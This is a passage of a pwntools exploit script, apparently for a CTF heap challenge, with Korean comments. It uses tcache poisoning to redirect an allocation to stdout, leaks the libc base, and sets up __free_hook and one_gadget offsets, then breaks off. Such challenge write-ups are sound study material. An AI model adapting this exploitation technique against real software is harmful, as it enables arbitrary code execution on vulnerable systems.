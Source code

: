 ```

def print_chunk():
    p.sendlineafter(b'Edit\n', b'3')


def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk: ', content)


# tcache[0x40] : empty
# chunk : first(1)
allocate(0x30, b'first')


# tcache[0x40] : first(1)
# chunk : first(1)
free()  # (1)


# tcache[0x40] : first(1) -> stdout -> _IO_2_1_stdout_
# chunk : first(1)
stdout = elf.symbols['stdout']
edit(p64(stdout))


# tcache[0x40] : stdout -> _IO_2_1_stdout_
# chunk : first(1)
allocate(0x30, b'a')
# 어떤 값을 대입하면서 allocate하더라도 이미 tcache에는 stdout이 링크드 리스트의 헤더(청크의 헤더X)로 존재하므로 상관없음


# tcache[0x40] : _IO_2_1_stdout_
# chunk : stdout
_IO_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]  # 첫번째 문자열 가져옴 : 문자열에서 첫번째는 lsb
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리를 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')


# tcahce[0x50] : first(1)
# chunk : first(1)
```